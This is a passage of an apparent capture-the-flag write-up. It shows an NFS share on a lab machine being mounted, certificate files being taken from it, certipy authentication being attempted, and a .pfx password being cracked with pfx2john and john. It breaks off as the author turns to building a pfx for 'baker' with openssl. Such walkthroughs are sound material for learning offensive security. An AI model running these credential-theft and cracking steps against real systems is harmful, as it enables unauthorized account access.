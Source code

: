 ```bash
➜  ethicxz mount -t nfs -o vers=4,nolock 10.129.28.117:/helpdesk ./toto

➜  toto ls -la
total 25
drwx------  2 nobody 4294967294   64 nov.   2 04:02 .
drwxr-xr-x 59 ethicxz ethicxz     4096 avril 21 14:43 ..
-rwx------  1 nobody 4294967294 2484 nov.   2 04:01 baker.crt
-rwx------  1 nobody 4294967294 2029 nov.   2 04:01 baker.key
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 clark.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:01 lewis.pfx
-rwx------  1 nobody 4294967294 3315 nov.   2 04:02 scott.pfx
```
### Generate a pfx file to retrieve d.baker hash

We can try to authenticate with theses **.pfx files** :

```bash
➜ certipy auth -pfx lewis.pfx -dc-ip '10.129.28.117' -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
Traceback (most recent call last):
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/entry.py", line 60, in main
    actions[options.action](options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/parsers/auth.py", line 12, in entry
    auth.entry(options)
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 657, in entry
    authenticate = Authenticate(target=target, **vars(options))
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/commands/auth.py", line 148, in __init__
    self.key, self.cert = load_pfx(f.read())
                          ^^^^^^^^^^^^^^^^^^
  File "/root/.pyenv/versions/3.11.10/lib/python3.11/site-packages/certipy/lib/certificate.py", line 321, in load_pfx
    return pkcs12.load_key_and_certificates(pfx, password)[:-1]
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
ValueError: Invalid password or PKCS12 data
```
But it doesn't work, we can try to crack it with **pfx2john**

```bash
➜ pfx2john.py lewis.pfx > hash.txt

➜ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 16 [worst case UTF-8] to 48 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
REDACTED      (lewis.pfx)
```
Now we can try to generate the **baker pfx file** with ```baker.key``` and ```baker.crt``` thanks to openssl :
